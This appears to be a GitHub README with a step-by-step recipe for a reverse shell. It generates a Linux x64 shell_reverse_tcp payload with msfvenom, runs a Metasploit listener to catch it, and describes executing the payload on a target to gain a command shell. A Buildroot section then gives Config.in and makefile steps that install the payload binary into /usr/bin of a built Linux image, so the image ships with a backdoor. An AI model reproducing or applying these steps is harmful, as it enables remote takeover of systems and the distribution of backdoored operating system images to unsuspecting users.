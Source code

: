 # Cybersecurity-Custom-Payload
This is a custom Payload that compiled for Linux arch x86-64 by using Metasploit and added to the Linux image by Buildroot

# Steps to Use linux/x64/shell_reverse_tcp with msfvenom:
Generate the Payload: You can generate the payload using msfvenom by specifying the target architecture and other parameters like the listener's IP (LHOST) and port (LPORT).

Example command:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o reverse_shell.elf

Here:
-p linux/x64/shell_reverse_tcp: Specifies the payload (reverse TCP shell for 64-bit Linux).
LHOST=192.168.1.100: Set this to the IP address of your attacker's machine (the machine that will receive the reverse connection).
LPORT=4444: Set this to the port on which the attacker’s machine will listen for the reverse shell.
-f elf: Specifies the output format as ELF (Executable and Linkable Format) for Linux.
-o reverse_shell.elf: The output file name where the payload will be saved.

Set Up the Listener on Your Attacker Machine: On your attacker machine (e.g., Kali Linux), use Metasploit's multi/handler to listen for the incoming reverse shell.
msfconsole
use multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run

Transfer and Execute the Payload: Transfer the generated reverse_shell.elf to the target machine and execute it. Once the payload is executed on the target, it will attempt to connect back to the attacker's machine at the specified LHOST and LPORT.

Gain Access: Once the connection is established, the attacker will get a command shell from the target machine.

Compatibility:
Target Machine: The payload linux/x64/shell_reverse_tcp is specifically for 64-bit Linux systems. Ensure the target machine is running a 64-bit Linux system (x86-64 architecture).
----------------------------------------------------------------------------------
# Buildroot steps:
#create the custom package:
1- create custom_payload folder

2- create Config.in file:
	config BR2_PACKAGE_CUSTOM_PAYLOAD
    bool "Custom Payload"
    help
      This package installs a custom payload (reverse_shell.elf) into the target root filesystem.

3- create custom_payload.mk file
	
	# Define a custom variable for your project directory
	MY_PROJECT_DIR = /home/ahmed/Desktop/OneKey/buildroot-2024.08.2
	
	CUSTOM_PAYLOAD_VERSION = 1.0
	CUSTOM_PAYLOAD_SITE = $(MY_PROJECT_DIR)/package/custom_payload
	CUSTOM_PAYLOAD_SITE_METHOD = local
	CUSTOM_PAYLOAD_LICENSE = Proprietary
	CUSTOM_PAYLOAD_LICENSE_FILES =
	
	define CUSTOM_PAYLOAD_INSTALL_TARGET_CMDS
		$(INSTALL) -D -m 0755 $(CUSTOM_PAYLOAD_SITE)/reverse_shell.elf \
			$(TARGET_DIR)/usr/bin/reverse_shell
	endef
	
	$(eval $(generic-package))
	
4- add the reverse_shell.elf to the custom_payload folder

5- add the custom Config.in to the main Config.in : #custom payload source "package/custom_payload/Config.in"
	
6- check the custom payload in menuconfig: make menuconfig
	
7- build your image: make
